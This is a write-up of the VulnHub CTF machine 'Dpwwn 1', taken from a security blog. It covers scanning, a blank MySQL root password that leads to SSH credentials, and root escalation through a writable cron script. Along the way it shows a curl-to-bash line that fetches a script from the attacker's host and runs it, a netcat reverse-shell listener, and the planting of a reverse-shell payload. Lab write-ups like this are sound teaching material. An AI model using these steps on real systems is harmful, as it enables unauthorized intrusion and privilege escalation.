 ```yaml
---
title: "Dpwwn 1"
date: 2024-05-25
draft: false
summary: "Writeup for Dpwwn 1 CTF on VulnHub. A boot to root challenge requiring us to capture the flag from the root directory."
tags: ["linux", "cron", "service misconfiguration"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/dpwwn1/cover.png"
  caption: "Dpwwn VulnHub Challenge"
  alt: "Dpwwn cover"
platform: "VulnHub"
---
```


**dpwwn1** is a boot to root challenge that requires us to obtain the contents of `dpwwn-01-FLAG.txt` under */root* Directory.
<!--more-->
To download **dpwwn 1**, click on the link given below:
- https://www.vulnhub.com/entry/dpwwn-1,342/

## Recon

I performed a network scan to discover the target IP.

```bash
nmap -sn 192.168.1.0/24                 
```

I then performed an **nmap** aggressive scan to find open ports and services.

```shell
nmap -A -p- TARGET --min-rate 10000 -oN dpwwn1.nmap
```

| **Port** | **Service** |
| -------- | ----------- |
| 22       | ssh         |
| 80       | http        |
| 3306     | mysql       |

![](https://cdn.ziomsec.com/dpwwn1/1.png)

## Initial Foothold

I visited the web application running on port 80 through my browser and landed on a testing page.

![](https://cdn.ziomsec.com/dpwwn1/2.png)

I then ran a **ffuf** scan to find hidden files and found an interesting file.

```shell
ffuf -u http://TARGET/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-file.txt -mc 200,302
```

![](https://cdn.ziomsec.com/dpwwn1/3.png)

I then visited the *info.php* endpoint and got the results of `phpinfo()` function.

![](https://cdn.ziomsec.com/dpwwn1/4.png)

This page provided 2 potential usernames, "root" and "apache". I tried connecting to the **mysql** server using these usernames with a blank password and got access as "root".

```shell
hydra -l 'apache' -p '' mysql://TARGET
hydra -l 'root' -p '' mysql://TARGET
```

![](https://cdn.ziomsec.com/dpwwn1/5.png)

```shell
mysql -u root -H target -p
# hit enter
```

![](https://cdn.ziomsec.com/dpwwn1/6.png)

Here, I found a set of credentials in the *users* table.

```mysql
use ssh;
show tables;
select * from users
```

![](https://cdn.ziomsec.com/dpwwn1/7.png)

![](https://cdn.ziomsec.com/dpwwn1/8.png)

I used these credentials to connect via **ssh**.

![](https://cdn.ziomsec.com/dpwwn1/9.png)

With this, I gained a foothold on the machine.

## Privilege Escalation

To enumerate privilege escalation vectors, I downloaded the **linux smart enumeration** script on my target system:
- https://github.com/diego-treitos/linux-smart-enumeration

> I had the script locally so I just transferred it by hosting a local http server.

```shell
python -m http.server 8080
```

![](https://cdn.ziomsec.com/dpwwn1/10.png)

```shell
curl http://KALI:8080/lse.sh | /bin/bash
```

![](https://cdn.ziomsec.com/dpwwn1/11.png)

![](https://cdn.ziomsec.com/dpwwn1/12.png)

Through this, I discovered that the bash script present in my home directory was being executed as a **cronjob**. Cron jobs are scheduled tasks that are executed automatically after certain conditions are fulfilled.

![](https://cdn.ziomsec.com/dpwwn1/13.png)

```shell
cat /etc/crontab
```

![](https://cdn.ziomsec.com/dpwwn1/14.png)

The *crontab* confirmed that the bash script was being executed as *root*. To understand the execution schedule, I visited **[crontab guru](https://crontab.guru/)**.

![](https://cdn.ziomsec.com/dpwwn1/15.png)

Since I had permissions to write into the file, I could execute any command as *root*. Hence, I visited **revshells** and selected a bash payload that would get me a reverse shell.
- https://www.revshells.com/

![](https://cdn.ziomsec.com/dpwwn1/16.png)

I then added this payload to the bash script and started a reverse shell listener using **netcat**.

![](https://cdn.ziomsec.com/dpwwn1/17.png)

```bash
rlwrap nc -lnvp 4444
```

After 3 minutes and I got a reverse connection on my **netcat** listener.

![](https://cdn.ziomsec.com/dpwwn1/18.png)

I spawned a **tty** shell and captured the flag from the */root* directory.

```sell
python -c 'import pty;pty.spawn("/bin/bash")'
cat dpwwn-01-FLAG.txt
```

![](https://cdn.ziomsec.com/dpwwn1/19.png)

## Closure

Here's a summary of how I pwned **dpwwn 1**:
1. I identified potential users from the **phpinfo** page using web fuzzing.
2. One of these users had credentials for the **mysql** server on the target, which allowed me to access the system via **ssh**.
3. A script in the *mystic* user's directory was executed by *crontab* as *root*, providing me with a reverse shell as *root*.
4. With *root* access, I retrieved the flag located in */root*.

That's all from my side! Happy Hacking :)

---
